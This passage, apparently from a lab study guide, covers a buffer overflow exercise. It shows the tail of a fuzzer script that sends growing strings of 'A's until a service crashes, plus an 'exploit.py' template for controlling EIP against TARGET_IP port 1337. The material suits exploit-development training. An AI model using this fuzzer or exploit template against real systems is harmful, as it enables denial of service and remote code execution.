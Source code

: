 s.recv(1024)

except:

print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))

sys.exit(0)

string += 100 \* "A"

time.sleep(1)

* Run script using python.

python3 fuzzer.py

* Script sends increasingly long strings comprised of As.
* Fuzzer exits with error message if it crashes target host with one of the strings.
* Note largest number of bytes that were sent.
  * Fuzzing with 1900 bytes succeeded.
  * Fuzzing crashed at 2000 bytes.

#### **Crash Replication and Controlling EIP** <a href="#id-9z0n1dzi3jbd" id="id-9z0n1dzi3jbd"></a>

* Create "exploit.py" file on attack host.

import socket

ip = "TARGET\_IP"

port = 1337

prefix = "OVERFLOW1 "

offset = 0

overflow = "A" \* offset

retn = ""

padding = ""

payload = ""

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)

try:

s.connect((ip, port))

print("Sending evil buffer...")

s.send(bytes(buffer + "\r\n", "latin-1"))

print("Done!")

except:

print("Could not connect.")
